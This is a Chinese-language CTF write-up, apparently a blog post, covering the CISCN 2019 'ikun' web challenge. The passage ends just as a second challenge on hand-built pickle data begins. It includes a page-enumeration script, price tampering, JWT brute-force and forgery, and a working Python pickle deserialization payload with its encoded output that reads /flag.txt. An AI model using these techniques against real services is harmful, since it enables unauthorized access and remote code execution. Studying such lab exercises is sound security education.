






就分析几道例题吧

## CISCN 2019 ikun

这题开始脑洞比较大



然后观察URL

```
http://b8869902-7911-4d16-bb0c-fe61550e2cea.node3.buuoj.cn/shop?page=1
```

开始以为这里有注入，因为加一个单引号网站就崩了

但是不然。是需要找到 `lv6`

```python
import requests

URL = "http://b8869902-7911-4d16-bb0c-fe61550e2cea.node3.buuoj.cn/shop?page="

for i in range(2000):
    res = requests.get(URL+str(i))
    if b"lv6.png" in res.content:
        print(i)
        break
```

注意 `res.content` 返回的是byte类型， `res.text` 会自动转码为字符串

得到的结果是181



当然按照管理你是买不起的

抓个包改一下折扣



进入后台

```
http://b8869902-7911-4d16-bb0c-fe61550e2cea.node3.buuoj.cn/b1g_m4mber
```



注意到是用jwt认证的，爆破一下



然后伪造一下进入admin，查看页面源代码有代码下载地址

审计代码

看到 `Admin.py`

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib

class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

会反序列化传过来的 become 参数，于是

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

生成

```
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

提交即可



## 抗疫分享赛webtmp

这题涉及到了如何手动构造 pickle 数据

复习一下指令
